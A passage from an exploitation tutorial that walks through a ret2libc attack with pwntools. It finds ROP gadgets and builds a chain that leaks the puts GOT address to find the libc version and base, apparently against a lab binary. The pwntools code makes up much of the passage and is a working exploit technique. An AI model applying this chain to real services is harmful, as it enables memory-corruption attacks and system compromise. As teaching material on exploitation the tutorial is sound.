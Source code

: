 Another way would be to use: `pattern create 1000` -- _execute until ret_ -- `pattern seach $rsp` from GEF.

## 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the **libc **being used, and later to **launch the final exploit**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT `is needed to call the **function puts**.\
The `MAIN_PLT` is needed to call the **main function **again after one interaction to **exploit **the overflow **again **(infinite rounds of exploitation). **It is used at the end of each ROP to call the program again**.\
The **POP_RDI **is needed to **pass** a **parameter **to the called function.

In this step you don't need to execute anything as everything will be found by pwntools during the execution.

## 3- Finding LIBC library

Now is time to find which version of the **libc **library is being used. To do so we are going to **leak **the **address **in memory of the **function **`puts`and then we are going to **search **in which **library version **the puts version is in that address.

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))

    return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
    print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
    p.interactive()
```
